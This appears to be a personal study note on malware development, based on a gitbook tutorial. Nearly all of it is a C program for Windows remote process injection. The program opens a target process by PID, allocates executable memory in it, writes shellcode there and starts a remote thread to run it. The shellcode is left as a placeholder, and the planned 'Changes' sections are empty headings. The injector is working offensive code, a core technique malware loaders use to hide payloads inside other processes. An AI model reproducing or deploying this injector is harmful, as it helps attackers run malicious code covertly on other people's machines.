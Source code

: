 reference: [crow's gitbook](https://crows-nest.gitbook.io/crows-nest/malware-development/process-injection/shellcode-injection)

# The words bit
Instead of basically copying crow's blog I'm going to add a few things.
1. Automate the whole "find notepad.exe PID and then start the program" thing.
2. Inject into the current program.
3. Load the shellcode from a file.

# Remote Process Injection
I think remote is the write word.
```c
#include <Windows.h>
#include <stdio.h>

const char* k = "[+]";
const char* i = "[*]";
const char* e = "[-]";

DWORD PID, TID = NULL;
LPVOID rBuffer = NULL;
HANDLE hProcess, hThread = NULL;

unsigned char whatsshellcode[] =
<shellcode>;

int main(int argc, char* argv[]) {

	if (argc < 2) {

		printf("%s usage: program.exe <PID>", e);
		return EXIT_FAILURE;
	}
	printf("%s\n", whatsshellcode);
	PID = atoi(argv[1]);
	printf("%s trying to open a handle to process (%ld)\n", i, PID);

	/* open a handle to the process */
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);

	if (hProcess == NULL) {
		printf("%s couldn't get a handle to the process (%ld), error: %ld", e, PID, GetLastError());
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the process!\n--0x%p\n", k, hProcess);


	/* allocate bytes to process memory */
	rBuffer = VirtualAllocEx(hProcess,NULL,sizeof(whatsshellcode),(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
	printf("%s allocated %zu-bytes with PAGE_EXECUTE_READWRITE permissions\n", k, sizeof(whatsshellcode));

	WriteProcessMemory(hProcess, rBuffer, whatsshellcode, sizeof(whatsshellcode), NULL);
	printf("%s wrote %zu-bytes to process in memory.\n", k, sizeof(whatsshellcode));

	/* create thread to run the payload */
	hThread = CreateRemoteThreadEx(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, 0, &TID);

	if (hThread == NULL) {
		printf("%s failed to get a handle to the thread, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the thread (%ld)\n--0x%p\n", k, TID, hThread);
	
	printf("%s waiting for thread to finish\n", i);
	WaitForSingleObject(hThread, INFINITE);
	printf("%s thread finished executing\n",k);

	printf("%s cleaning up\n", i);
	CloseHandle(hThread);
	CloseHandle(hProcess);
	printf("%s finished!", k);

	return EXIT_SUCCESS;
}
```

# Changes
## Automation
## Inject into current program
## Load from file
